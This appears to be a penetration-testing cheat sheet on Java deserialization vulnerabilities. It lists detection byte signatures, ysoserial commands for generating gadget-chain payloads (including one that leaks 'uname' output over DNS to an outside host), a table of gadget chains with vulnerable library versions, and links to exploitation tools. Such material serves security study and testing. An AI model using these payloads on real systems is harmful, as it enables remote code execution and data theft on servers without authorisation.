# Java Deserialization

## Detection

- "AC ED 00 05" in Hex
- "rO0" in Base64
- Content-type = "application/x-java-serialized-object"
- "H4sIAAAAAAAAAJ" in gzip(base64)

## Exploit

[ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial-master-v0.0.4-g35bce8f-67.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

payload | author | dependencies | impact (if not RCE)
------|--------|------ |------
BeanShell1          |@pwntester, @cschneider4711 |bsh:2.0b5
C3P0                |@mbechler                   |c3p0:0.9.5.2, mchange-commons-java:0.2.11
Clojure             |@JackOfMostTrades           |clojure:1.8.0
CommonsBeanutils1   |@frohoff                    |commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
CommonsCollections1 |@frohoff                    |commons-collections:3.1
CommonsCollections2 |@frohoff                    |commons-collections4:4.0
CommonsCollections3 |@frohoff                    |commons-collections:3.1
CommonsCollections4 |@frohoff                    |commons-collections4:4.0
CommonsCollections5 |@matthias_kaiser, @jasinner |commons-collections:3.1
CommonsCollections6 |@matthias_kaiser            |commons-collections:3.1
FileUpload1         |@mbechler                   |commons-fileupload:1.3.1, commons-io:2.4 | file uploading
Groovy1             |@frohoff                    |groovy:2.3.9
Hibernate1          |@mbechler|
Hibernate2          |@mbechler|
JBossInterceptors1  |@matthias_kaiser            |javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
JRMPClient          |@mbechler|
JRMPListener        |@mbechler|
JSON1               |@mbechler                   |json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
JavassistWeld1      |@matthias_kaiser            |javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
Jdk7u21             |@frohoff|
Jython1             |@pwntester, @cschneider4711 |jython-standalone:2.5.2
MozillaRhino1       |@matthias_kaiser            |js:1.7R2
Myfaces1            |@mbechler|
Myfaces2            |@mbechler|
ROME                |@mbechler                   |rome:1.0
Spring1             |@frohoff                    |spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
Spring2             |@mbechler                   |spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
URLDNS              |@gebl| | jre only vuln detect
Wicket1             |@jacob-baines               |wicket-util:6.23.0, slf4j-api:1.6.4

Additional tools (integration ysoserial with Burp Suite):

- [JavaSerialKiller](https://github.com/NetSPI/JavaSerialKiller)
- [Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner)
- [Burp-ysoserial](https://github.com/summitt/burp-ysoserial)
- [SuperSerial](https://github.com/DirectDefense/SuperSerial)
- [SuperSerial-Active](https://github.com/DirectDefense/SuperSerial-Active)

JRE8u20_RCE_Gadget
[https://github.com/pwntester/JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget)

JexBoss - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool, [https://github.com/joaomatosf/jexboss](https://github.com/joaomatosf/jexboss)

## References

- [Github - ysoserial](https://github.com/frohoff/ysoserial)
- [Java-Deserialization-Cheat-Sheet - GrrrDog](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet/blob/master/README.md)
- [Understanding & practicing java deserialization exploits](https://diablohorn.com/2017/09/09/understanding-practicing-java-deserialization-exploits/)
- [How i found a 1500$ worth Deserialization vulnerability - @D0rkerDevil](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities - 14 Aug 2017, Peter Stöckli](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)